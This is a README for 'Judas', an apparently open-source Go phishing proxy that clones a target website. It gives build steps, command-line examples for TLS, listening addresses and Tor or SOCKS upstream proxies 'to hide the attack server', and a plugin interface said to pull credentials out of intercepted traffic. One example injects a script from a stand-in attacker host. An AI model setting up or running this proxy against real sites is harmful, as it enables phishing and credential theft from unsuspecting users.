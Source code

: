 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build -o judas cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website.
If you want to listen using HTTP, pass the ```--insecure``` flag.
If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key
```

```
./judas --target https://target-url.com --insecure
```

```
./judas --target https://target-url-with-self-signed-cert.com --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas --target https://torwebsite.onion --cert server.crt --private-key server.key --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --inject-js https://evil-host.com/payload.js
```

Plugins
-------
Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Plugin with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Plugin, error)
```

The `judas.Plugin` interface has one method: `Listen`.

```
// Plugin must be implemented by a plugin to users to hook the request - response transaction.
// The Listen method will be run in its own goroutine, so plugins cannot block the rest of the program, however panics can take down the entire process.
type Plugin interface {
	Listen(results <-chan *Result)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Plugins can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

You can put plugins in a directory and pass them with the `--plugins-dir` flag.
By default it's `./plugins`.

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)